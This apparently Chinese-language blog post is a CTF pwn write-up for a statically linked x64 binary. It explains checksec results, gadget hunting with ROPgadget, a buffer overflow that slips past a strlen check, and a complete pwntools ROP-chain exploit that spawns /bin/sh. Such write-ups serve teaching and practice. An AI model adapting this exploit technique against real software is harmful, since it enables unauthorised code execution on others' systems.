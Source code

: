 ```yaml
---
title: "解 ROP 之工具與詳細流程"
date: 2020-02-17T13:37:01+08:00
draft: false
tags: ["CTF", "pwn"]
categories: ["CTF pwn"]
---
```


# ROP writeup

## checksec rop

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## file rop

```
rop: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=6608f6b8f49633b8d8248f7665b6ba35659a595a, not stripped
```

## 線索1：statically linked

**動態連結**是當程式執行時，才會去 library binding (.so 或 .dll) <br>
**靜態連結**是指程式在連結階段時，就會將使用到的函式一併放入執行檔

| 比較         | 動態連結     | 靜態連結     |
| ------------ | ------------ | ------------ |
| 連結 library | runtime 階段 | linking 階段 |
| 連結方式     | 建立 GOT 表    | 與執行檔合併 |
| 檔案大小     | 較小         | 較大         |
| libray 檔案類型    |  .so 或 .dll | .a 或 .lib  |

因此我們可使用 **ROPgadget** 在此ELF找出 ROP gadget，來取得 執行權限
```
ROPgadget --binary rop | grep "正規表達式"
```
補充： `grep` 是屬於 BRE 派系，使用正規表達式時，須跳脫字元。


## 線索2：NX is enabled
```
* NX 若關閉，則可寫入 shellcode
* NX 若開啟，則可透過 ROP chain 技巧執行 shell
```

因為 NX 是開啟的，也就是說 data 段是沒有執行能力的。 
因此我們無法使用 shellcode 寫入 data 段，直接執行 shell

然而，我們可以使用 ROP 技巧來執行 shell
我們可透過 `readelf -S 檔案` 指令得知 data段 是可寫入資料的。


### 如何找 data section 位址？
使用 `readelf -S filename` 指令可查看所有 section 的位址
我們只需看 data section的部份即可 <br>

data區段雖然在此程式無法執行，但可寫入 `"/bin/sh"`字串作為納入 shell 參數的暫存區塊
```
readelf -S rop
```
或是
```
readelf -S rop | grep ".data"
```
即可知道 `0x6ca080` 是 data section 位址

![](https://i.imgur.com/b4Z45tn.png)

## 線索3： No canary

使用 r2 反組譯後由於 read 最多可以讀取 0xc8 (200) 個字元，
且輸入到的 local buffer 大小只有 32 bytes，
因此可使用 bof (buffer overflow) 技巧來建立 ROP chain。

![](https://i.imgur.com/Njh4RK9.png)


另外必須要注意，輸入字串後仍會檢查字串長度是否小於等於 32 個，
必須在輸入30個bytes大小的字串後，額外加入 空字元，繞過strlen()的超過長度的判斷，才繼續接 ROP chain

![](https://i.imgur.com/mOn49l6.png)


## ROP chain
ROP = Return Oriented Programming

顧名思義，就是利用 結尾有 ret 的 gadgets (一小段 x86 組語)來湊成我們想要做的事情。

對於 pwn ，我們就是希望可以透過 ROP chain 湊成 `execve("/bin/sh", 0, 0)`，來取得執行 shell 的系統權限。

另外，在撰寫 ROP 時，必須確認該 ELF 是 x86 還是 x64，因為 兩者的 system call 的呼叫（傳參）方式不同

* [參考x64 system call](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)

### x64呼叫慣例

:::info
rdi: 第一個參數存放的暫存器
rsi: 第二個參數存放的暫存器
rdx: 第三個參數存放的暫存器
:::

舉例來說，呼叫 `execve("/bin/sh", 0, 0)` <br>
暫存器會呈現
```
rax = 0x3b (system call 的編號)
rdi = address of "/bin/sh"
rsi = 0x0
rdx = 0x0
```
只要透過 ROP 將這些暫存器改成上述的值，chain結尾再呼叫 syscall，此程式在overflow之後就會執行 shell 了。

## 解法
```python=
from pwn import *

r = process("./rop")
data_sec = 0x06ca080
gadget1 = 0x04014f6 # pop rdi ; ret
gadget2 = 0x0401617 # pop rsi ; ret
gadget3 = 0x047a712 # mov qword ptr [rdi], rsi ; ret
gadget4 = 0x0442a19 # pop rdx ; pop rsi ; ret
gadget5 = 0x044f6cc # pop rax ; ret
syscall = 0x04003da

rop =  p64(gadget1) + p64(0x06ca080)
rop += p64(gadget2) + "/bin/sh\x00"
rop += p64(gadget3)
rop += p64(gadget4) + p64(0x0)*2
rop += p64(gadget5) + p64(0x3b) 
rop += p64(syscall)

r.recvuntil("\n")
r.send('a'*30+'\x00'+'a'*9 + rop)

r.interactive()
```